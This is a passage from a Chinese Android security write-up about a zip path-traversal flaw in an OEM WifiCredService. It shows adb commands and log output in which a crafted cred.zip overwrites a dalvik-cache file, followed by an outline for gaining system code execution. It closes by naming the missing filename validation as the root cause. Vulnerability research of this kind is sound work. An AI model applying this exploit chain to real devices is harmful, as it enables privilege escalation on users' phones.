 或者为了方便方便测试，我们用adb命令发送一个文件到/sdcard/Download/:

```
> adb push cred.zip /sdcard/Download/
> adb logcat WifiCredService:V *:S
--------- beginning of main
--------- beginning of system
I/WifiCredService( 4599): File CLOSE_WRITE [/storage/emulated/0/Download/cred.zip]8
V/WifiCredService( 4599): Unzipping********** ../../../../../../data/dalvik-cache/arm/system@app@AccessControl@AccessControl.apk@classes.dex
V/WifiCredService( 4599): Extdex
V/WifiCredService( 4599): Mime Typenull

```

下次重启后，将会显示下面的信息：

```
> adb reboot; adb logcat sh4ka:V *:S
- waiting for device -
--------- beginning of system
--------- beginning of main
F/sh4ka   ( 3613): boom!

```

上述过程证明了我们通过覆盖 dalvik-cache来进行代码执行。当然这个方法并不完美，因为在不利的设备或者比较特别的ROM上，我们要苦心的构造OAT文件。测试该漏洞，需要多个操作步骤。首先我们让设备以一个低权限用户身份运行，同时精力集中在稳定性上（比如不覆盖 dalvik-cache文件）。然后我们以低权限身份访问系统，直接利用设备上的dex2oat工具来为 AccessControl.apk建立一个兼容的OAT文件，最后在SDCard上创建一个包含了自己的OAT文件的名字类似 cred[something].zip的ZIP文件，覆盖掉 dalvik-cache，最后获得系统权限的代码执行。

0x06 总结
=======

* * *

如文中所见，OEM定制仍然是安卓安全中最薄弱的环节。当你的智能手机给你一个机会，可以通过一个逻辑漏洞来获得一个100%稳定的exploit，你会愿意绕过沙箱或者击败系统保护机制(ASLR/canary/...) 来获得这个稳定的exploit吗？

再次强调一下，该漏洞产生的根本原因是通过ZipInputStream进行解压操作的时候没有对文件名进行验证而造成的。当然，将来可能这里会有一些验证…………。

0x07 引用
=======

* * *

*   (0)[https://code.google.com/p/google-security-research/issues/detail?id=489](https://code.google.com/p/google-security-research/issues/detail?id=489)
*   (1)[https://github.com/nowsecure/android-vts/commit/429c687fe03ef0db2999a36f2ec7d31101cd78da](https://github.com/nowsecure/android-vts/commit/429c687fe03ef0db2999a36f2ec7d31101cd78da)
*   (2)[https://github.com/nowsecure/android-vts](https://github.com/nowsecure/android-vts)
*   (3)[https://developer.android.com/reference/android/os/FileObserver.html](https://developer.android.com/reference/android/os/FileObserver.html)
*   (4)[https://www.securecoding.cert.org/confluence/display/java/IDS04-J.+Safely+extract+files+from+ZipInputStream](https://www.securecoding.cert.org/confluence/display/java/IDS04-J.+Safely+extract+files+from+ZipInputStream)
*   (5)[https://www.nowsecure.com/keyboard-vulnerability/](https://www.nowsecure.com/keyboard-vulnerability/)
*   (6)[https://android-review.googlesource.com/#/c/155000/](https://android-review.googlesource.com/#/c/155000/)
*   (7)[https://android-review.googlesource.com/#/c/127710/](https://android-review.googlesource.com/#/c/127710/)
*   (8)[https://github.com/jakev/oat2dex-python/](https://github.com/jakev/oat2dex-python/)
*   (9)[https://www.blackhat.com/docs/asia-15/materials/asia-15-Sabanal-Hiding-Behind-ART.pdf](https://www.blackhat.com/docs/asia-15/materials/asia-15-Sabanal-Hiding-Behind-ART.pdf)